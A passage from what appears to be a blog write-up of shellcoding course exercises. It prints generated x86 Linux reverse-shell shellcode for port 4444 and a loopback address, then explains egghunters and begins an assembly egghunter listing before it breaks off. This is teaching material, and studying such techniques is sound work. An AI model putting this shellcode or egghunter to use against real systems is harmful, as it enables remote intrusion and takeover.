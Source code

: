 Pretty slick!

```
$ ./revshell_Config.py 4444 127.1.1.1
[+] Hex port: \x11\x5c
[+] Hex ip: \x7f\x01\x01\x01
[+] Shellcode: 
\x31\xc0\x31\xdb\xb0\x66\x53\x6a\x01\x6a\x02\x89\xe1\xfe\xc3\xcd\x80\x89\xc7\xb0\x66\x43\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x66\x53\x89\xe6\x6a\x10\x56\x57\x89\xe1\x43\xcd\x80\x87\xdf\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Task 3: Egghunters!

There's a lot of information out there on the web about egghunters, and some really good papers too (SKAPE). If you're totally unfamiliar and just want the tldr, here's the gist of it:

Let's say you are testing some sort of server application, maybe it's an FTP app. The application has a couple different commands that accept some input, but when you send certain data to one of the commands, the application crashes in a way that allows you to control the flow of execution. "Hooray!" you might be thinking, "Now I can send my payload!"

To your dismay, after sending payload after payload you find you can only fit a measly 40 bytes in memory through this vulnerable command, womp womp. Earlier while fuzzing, you noticed you could send arbitrarily large amounts of bytes in the other commands though, then send your payload and take control of execution. There's a high probability the other thousand \x41's you sent right before invoking the crash are hanging out in memory, though... but where? Will that even matter?

This is where an egghunter comes in. An egghunter acts as a small piece of code which searches through arbitrary memory locations for a specific, unique string we define, known as an egg. Once it locates the egg, a good egghunter will check the bytes following the intial egg for another egg. If it doesn't find the egg twice, it continues to search memory, looking for the two eggs in a row. Assuming we prepend our shellcode with our egg, if the egghunter locates two eggs, which again, are expected to be unique values, then it returns the location it found.

Now, since our shellcode is prepended with the two unique eggs, the egghunter has found our shellcode in memory, and we're free to jump to it and begin execution.

```
global _start

section .text

_start:
        ; zero edx for kicks
        xor edx, edx

fix_page:

        ; This is a hacky fix for page sizes
        ; 0xfff is 4095, so we inc edx later on to avoid nulls
        ; page fix is only called if we need some gud gud memory
        or dx, 0xfff

egghunter:

        inc edx

        ; int access(const char *pathname, int mode)
        ; Give ebx an arbitrary address within the page
        lea ebx, [edx + 4]

        ; push, pop, syscall for access() 
        push dword 0x21
        pop eax
        int 0x80
```